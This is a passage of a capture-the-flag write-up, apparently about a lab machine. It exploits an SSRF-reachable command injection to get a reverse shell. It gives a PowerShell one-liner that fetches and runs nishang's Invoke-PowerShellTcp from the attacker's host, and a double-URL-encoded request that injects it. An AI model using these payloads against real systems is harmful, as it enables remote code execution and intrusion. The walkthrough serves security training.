 If we use simple URL encode on here, we get `bad request` on the response, I tried executing it with double and triple encoding, but it didn't worked.

It doesn't mean we can't get a shell, we need to have a different approach, we know we can call outside resources, so, let's simply host a reverse shell file and have it executed it so it gets us a reverse shell back, we can use `nishang`  `Invoke-PowershellTcp.ps1` script;


https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1


Once we grab the shell, we need to host a python server and set up our listener.

The flow will be the following, first, we'll download the file, execute it in memory using `IEX` and call the `Invoke-PowerShellTcp` function with our Ip and port, we can use the following command to achieve this:

```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.14.21.28:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.14.21.28 -Port 4444"
```


We can use burp's `decoder` functionality to encode our payload in order for it to work:

![Pasted image 20250718171323.png](../../IMAGES/Pasted%20image%2020250718171323.png)


So, our final request should look like this:

```http
/?r=http://internal.ironcorp.me:11025/name.php?name=test|%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%33%25%32%30%25%32%32%25%34%39%25%34%35%25%35%38%25%32%38%25%34%65%25%36%35%25%37%37%25%32%64%25%34%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%34%65%25%36%35%25%37%34%25%32%65%25%35%37%25%36%35%25%36%32%25%34%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%34%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%31%25%33%34%25%32%65%25%33%32%25%33%31%25%32%65%25%33%32%25%33%38%25%33%61%25%33%38%25%33%30%25%33%30%25%33%30%25%32%66%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%33%62%25%32%30%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%30%25%32%64%25%35%32%25%36%35%25%37%36%25%36%35%25%37%32%25%37%33%25%36%35%25%32%30%25%32%64%25%34%39%25%35%30%25%34%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%32%30%25%33%31%25%33%30%25%32%65%25%33%31%25%33%34%25%32%65%25%33%32%25%33%31%25%32%65%25%33%32%25%33%38%25%32%30%25%32%64%25%35%30%25%36%66%25%37%32%25%37%34%25%32%30%25%33%34%25%33%34%25%33%34%25%33%34%25%32%32
```
